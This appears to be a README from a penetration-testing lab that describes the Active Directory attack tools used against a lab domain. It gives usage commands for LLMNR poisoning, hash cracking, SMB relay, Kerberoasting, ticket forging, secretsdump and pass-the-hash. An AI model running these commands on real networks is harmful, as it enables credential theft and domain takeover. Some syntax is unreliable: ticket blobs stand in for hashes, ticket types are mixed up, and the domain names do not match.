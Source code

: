 # Tools Documentation

This directory contains detailed descriptions and usage instructions for all tools used during the penetration testing process.

## Nmap

Nmap (Network Mapper) is a free and open-source network scanner used to discover hosts and services on a computer network by sending packets and analyzing the responses.

### Usage

```
nmap -sT -oN -sV -sC [target IP]
```

## Responder

Responder is a package that contains LLMNR, NBT-NS and MDNS posioner. We utilized this tool, in aid of a LNK file being dropped, to capture NTLMv2 hashes from a local administrator which was later decrypted. 

### Usage

```
responder -I eth0 -w -rf
```

## Hashcat 

Hashcat is a free open-source software that is considered the worlds fastest password recovery tool. This is often used to crack encrypted passwords or hashes to gain priviledge escalation. 

### Usage

```
hashcat -m 5600 hashfile.txt /usr/share/wordlists/rockyou.txt -r rules.txt -o hashfile.out
```

## Cracxkmapexec 

Crackmapexec is a free open-source software utilized as a Swiss army knife for Windows/Active Directory environments. It is often used to enumerate users, discover SMB shares, execute commands similar to psexec, auto-inject shellcode/DLLs, and much more.

### Usage

```
crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt
```
## Impacket 

Impacket is a free open-source Python package that provides access to network packets. It includes support for low-level protocols such as IP, UDP, and TCP, as well as higher-level protocols such as NMB and SMB.

### Usage

```
impacket-ntlmrelayx -smb2support -tf targets.txt
impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
impacket-ticketer -nthash doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
KRB5CCNAME=./Administrator.cache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
```
## Evil-WinRM 

Evil-WinRM is a free open-source package that contains the Windows Remote Management shell. This is typically used during the post-exploitation phase as this feature requires credentials and permissions to use.

### Usage

```
evil-winrm -i 10.100.1.4 -u filemaker -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
```

## Mimikatz/Pypykatz 

Mimikatz and Pypykatz are free open-source tools used to extract credentials from Windows systems. They are often used for post-exploitation activities, such as retrieving plaintext passwords, hashes, PINs, and Kerberos tickets.

### Usage

```
mimikatz # kerberos::golden /user:Administrator /domain:doomsdaylabs.local /sid:S-1-5-21-2774200336-3400690103-1452933870-1111 /krbtgt:doIF0jCCBc6g...NXU/rX [shortened] /service:HTTP /target:webserver.doomsdaylabs.net
```

## Neo4j 

Neo4j is a free open-source graph database management system. It is often used to store and query complex data relationships, such as those found in social networks, fraud detection, and network impact analysis.

### Usage

```
Run Neo4j GUI to start the database
```

## Bloodhound 

BloodHound is a free open-source tool that uses graph theory to reveal hidden and often unintended relationships within an Active Directory environment. It is often used to discover attack paths and escalate privileges.

### Usage

```
Run Bloodhound GUI
```
